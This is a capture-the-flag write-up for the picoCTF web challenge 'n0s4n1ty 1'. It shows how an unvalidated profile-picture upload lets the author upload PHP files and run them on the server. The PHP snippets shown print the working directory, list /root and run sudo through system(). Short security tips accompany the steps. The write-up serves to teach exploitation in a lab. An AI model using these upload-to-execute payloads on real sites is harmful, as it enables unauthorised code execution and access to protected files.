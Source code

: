 ```yaml
---
tags:
    - picoCTF
    - web-exploitation
---
```


# n0s4n1ty 1

"A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory."

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the challenge is basic; so don't expect this to be too complex
- process we are given to follow:
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [bing search](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory with content like the following. Save it with a `.php` expension

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`



Now browse there...
Success! It printed our working directory - we have code execution in the context of the web server!

This looks something like the following:

```mermaid
sequenceDiagram
    client->>server: uploads file
    server->>client: ok, and heres where it went!
    client-)server: can i see my file pls?
    server-->>client: sure!
    server-->>client: its executable, ok i will execute it...
    server->>client: here's my response

```

## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call...with sudo.

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

!!! note "Security practice tip!"

    For sudo to work, the web server user will have been added to sudoers.
    That is not normal. If it was nto so, we would need some means to privilege escalate

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag yourself!